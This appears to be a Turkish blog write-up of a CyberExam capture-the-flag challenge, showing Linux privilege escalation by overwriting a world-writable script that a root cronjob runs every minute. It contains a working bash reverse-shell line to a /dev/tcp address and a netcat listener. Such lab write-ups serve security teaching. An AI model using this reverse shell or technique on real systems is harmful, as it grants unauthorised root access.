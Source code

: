 ```yaml
---
title: "CyberExam: Cronjobs Challenge"
author: b1lal
categories: [CyberExam]
tags: [linux, privilege escalation, cronjob]
render_with_liquid: false
media_subpath: /images/cyberexam_challenges_cronjob/
image:
  path: cron.png
---
```


**Cronjobs** challenge'ı basit-orta seviye bir yetki yükseltme odasıdır. Amacımız sistemde ayarlanmış olan cronjob'ı kullanarak yetki yükselterek kök dizindeki ***flag.txt*** dosyasını okumaktır. (*Aşağıdaki görsele tıklarsanız doğrudan challenge sayfasına yönlendirilirsiniz.*)

[![CyberExam Challenge Link](challenge.png){: width="750" height="750" .shadow}](https://learn.cyberexam.io/challenges/privilege-escalation/linux/cronjobs){: .center }

Bu challenge bizden iki soruya cevap vermemizi istiyor:
- Planlanan cronjob nedir ? (fullpath)
- **flag.txt** dosyasının içeriği nedir ?

Challenge'ı başlatıyoruz, birkaç dakika sonra başlıyor. 


## Cronjob Dosyasını Bulma

Burada ilk yaptığımız vakit kaybetmeden zamanlanmış görev olup olmadığını kontrol etmektir.


```console
┌──(user㉿ubuntu)-[~]
└─$ cat /etc/crontab  
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab`  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  

SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  

# Example of job definition:  
# .---------------- minute (0 - 59)  
# |  .------------- hour (0 - 23)  
# |  |  .---------- day of month (1 - 31)  
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...  
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat  
# |  |  |  |  |  
# *  *  *  *  * user-name command to be executed  
*/1 *  *  *  *  root  /tmp/cleanup.sh
17  *  *  *  *  root  cd / && run-parts --report /etc/cron.hourly  
25  6  *  *  *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47  6  *  *  7  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52  6  1  *  *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
```

<br>
<br>

Burada gözümüze doğrudan cleanup.sh dosyası çarpıyor. Bunu biraz daha detaylı inceleyelim.

```bash
*/1 * * * * root /tmp/cleanup.sh
```


## Crontab Dosyasının Özellikleri

### Zamanlama Bölümü (`*/1 * * * *`)

Crontab satırları, zamanlama bilgisi içeren **beş alandan** oluşur:


| Dakika (0-59) | Saat (0-23) | Gün (1-31) | Ay (1-12) | Hafta Günü (0-6, Pazar=0 veya 7) |
| :-----------: | :---------: | :--------: | :-------: | :------------------------------: |
|     `*/1`     |     `*`     |    `*`     |    `*`    |               `*`                |




<br>

- **`*/1`** → Her **1 dakikada bir** çalıştır.
- **`*` (diğerleri)** → **Her saat, her gün, her ay ve her hafta günü** çalıştır.

Bu nedenle, bu görev **her dakika çalışacaktır**.

---

### Kullanıcı Bölümü (`root`)

- **`root`** → Bu komut **root kullanıcısı** tarafından çalıştırılacaktır.
- `/etc/crontab` gibi sistem genelindeki crontab dosyalarında kullanıcı adı **belirtilmelidir**.

---

<br>

## Yetki Yükseltme

Şimdi bu dosyaya yazma hakkımızın olup olmadığını kontrol edelim.

```bash
┌──(user㉿ubuntu)-[~]
└─$ ls -l /tmp/cleanup.sh
-rwxrw-rw- 1 root root 36 Aug 25 2023 /tmp/cleanup.sh
```

Yazma hakkımızın olduğunu görüyoruz. Şimdi dosyanın içeriğini reverse shell alabileceğimiz şekilde değiştirelim.

```bash
┌──(user㉿ubuntu)-[~]
└─$ vim /tmp/cleanup.sh
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.0.1.2/2828 0>&1
```
{: file="cleanup.sh" }

Daha sonra verdiğimiz portu dinlemeye başlıyoruz.

```bash
┌──(user㉿ubuntu)-[~]
└─$ nc -nvlp 2828
```

```bash
listening on [any] 2828 ...
connect to [10.0.1.2] from (UNKNOWN) [10.0.1.2] 46052
bash: cannot set terminal process group (461): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:~#
```

Kısa bir süre sonra nc dinleyicimize bağlantı düşüyor. Şimdi **flag.txt** dosyasını okuyabiliriz.

```bash
┌──(user㉿ubuntu)-[~]
└─$ cat /flag.txt
cat /flag.txt
CyberPath{CENSORED}
```
<br>

İlk challenge'ımızı başarıyla tamamladık. Bir sonra yazılarda görüşmek üzere.

![Challenge Finished](challenge-finish.png){: width="1000" height="700"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
